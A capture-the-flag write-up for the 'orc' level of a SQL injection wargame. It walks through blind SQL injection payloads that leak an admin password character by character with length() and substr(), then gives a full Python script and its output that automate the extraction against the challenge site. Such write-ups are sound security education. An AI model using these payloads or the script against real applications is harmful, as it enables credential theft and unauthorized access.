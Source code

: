```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. For that we have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d0e5928c-c2a2-4355-a6a2-af11d1804556)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9e438378-10e1-4f7a-9353-bdf75700825d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0'

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/d479be75-0818-47a3-8d89-991e9dcd1926)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0'

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/557a333a-920a-485b-926b-e87bfbf8b8f4)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9'

## Commented part:
'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/e9d938ad-34aa-4f07-8e9b-167b5d1ec34d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

## Script

We can automate the entire process using a script.

```py title="orc_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jeae4igtrh2cq92r63ob4kqmqr'}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"Payload: ?pw={payload}")
print(f"Password length: {password_length}")
print()

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print(f"Payload: ?pw={payload}")
      print(f"Character at index {index}: {char}")
      break

print()
print(f"Extracted password: {password}")
print(f"Final payload: ?pw={password}")
```

```
$ python .\orc_script.py

Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
Password length: 8

Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
Character at index 1: 0
Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
Character at index 2: 9
Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='5' -- -
Character at index 3: 5
Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='a' -- -
Character at index 4: a
Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='9' -- -
Character at index 5: 9
Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='8' -- -
Character at index 6: 8
Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='5' -- -
Character at index 7: 5
Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='2' -- -
Character at index 8: 2

Extracted password: 095a9852
Final payload: ?pw=095a9852
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)
